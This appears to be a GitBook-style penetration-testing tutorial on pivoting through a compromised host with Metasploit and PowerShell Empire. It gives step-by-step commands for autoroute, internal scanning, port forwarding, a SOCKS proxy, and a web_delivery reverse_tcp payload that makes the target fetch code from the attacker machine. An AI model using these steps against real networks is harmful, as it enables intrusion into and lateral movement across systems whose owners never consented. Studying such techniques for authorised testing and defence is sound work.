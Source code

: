 # Pivoting

Pivoting is a post exploitation technique that involves utilizing a compromised host to attack other systems on the compromised host's private internal network.

<div data-full-width="false"><figure><img src="../../../.gitbook/assets/image (142).png" alt="" width="375"><figcaption><p>Pivoting Visualize</p></figcaption></figure></div>

## Pivoting with Metasploit

We have two target machine (Victim1 and Victim2), the Victim1 is in the our same subnet but the Victim2 not.

Check the network configuration of the Victim1 for understand what are the two different subnet.&#x20;

```bash
ipconfig
```

Once we got access to the Victim1 we can try to pivoting for scan the Victim2 via meterpreter. (run this command in meterpreter session of Victim1)&#x20;

```bash
# add route
run autoroute -s NETWORK_ID/MASK

# show route
run autoroute -p
```

We can rename the meterpreter sessions.&#x20;

```bash
sessions -n victim-1 -i SESSION
```

To discover ohters host in the pivoting network, we can use a arpscanner module of metasploit.

```bash
# meterpreter
use post/windows/gather/arp_scanner
set RHOSTS IP/MASK
set SESSIONS 
run
```

Use a portscan module to make a scan in the Victim2 (msfconsole)

```bash
use auxialiary/scanner/portscan/tcp
set RHOSTS VICTIM2_IP
run
```

## Portfordwarding with Metasploit

When in the victim2 there is a service for exemple HTTP/S (port 80), to access via browser in the our kali machine we have to create a portforwarding. In the Victim1 meterpreter session run this commands:

```bash
portfwd add -l LOCAL_PORTFORWARDING -p VICTIM2_PORT_SERVICE -r VICTIM2_IP
# -l: local port that we want open to host the victim2 service
# -p: victim2 port with the service that we want view
# -r: victim2 IP
```

Now we can scan with db\_nmap the local port.

```bash
db_nmap -sS -sV -p LOCAL_PORTFORWARDING localhost
```

***

If the expoit dont run for the Victim2 try to change the payload with **bind\_tcp,** and set victim2 IP on the exploit, not "localhost".



## Pivoting PortScan with Empire

we are in a windows machine and we have to run portscanning in other machine via pivoting.

Follow this guide to start empire and connect windows target to it.

{% content-ref url="../../../tools/tools/powershell/powershell-empire-fundamentals.md" %}
[powershell-empire-fundamentals.md](../../../tools/tools/powershell/powershell-empire-fundamentals.md)
{% endcontent-ref %}

Interact with the target with this command:

```bash
interact NAME # get the name from agents empire table
```

Use and set the portscan empire module:

```bash
usemodule powershell/situational_awareness/portscan
set Hosts TARGET2_IP
execute
```

Once the scan will terminated and in the target 2 we can transfer the empire target to msfconsole to do port fordwarding.

## Portfordwarding from Empire target

To do portfordwarding in a Empire target we need to use metasploit.

### Transfer Empire target to Metasploit

Use a web delivery to send a command to connect empire to metasploit

```bash
msfconsole
use exploit/multi/script/web_delivery
set target 2 # to select powershell target
set SRVHOST EMPIRE_SERVER_IP
set LHOST ATTACK_MACHINE
set payload windows/meterpreter/reverse_tcp
exploit
```

Copy the URL that the module generate.

Now we go into Empire client (interacting target session), use this module and set the value with URL copied:

```bash
usemodule powershell/code_execution/invoke_metasploitpayload
set URL https://..../.....
```

Then 5 second we can see that in our msfconsole we would have the new session with the target.

### Metasploit Portfordwarding

Use this automatic module that create a route between the network on a target to our local network

```bash
use post/multi/manage/autoroute
set SESSION 1
run
```

Now we utilize a module to host a target port in our system

```bash
use auxiliary/server/socks_proxy
set SRVHOST ATTACK_IP
run
```

Go to firefox settings, search proxy and select SOCKS Host in Manual proxy configuration. Write the Attack machine and the port selected in socks\_proxy msf module (default is 1080)

<figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

Now we can connect via firefox searching the TARGET2 IP and hacker it if its vulnerable.

If the expoit dont run for the Victim2 try to change the payload with **bind\_tcp,** and set victim2 IP on the exploit, not "localhost".





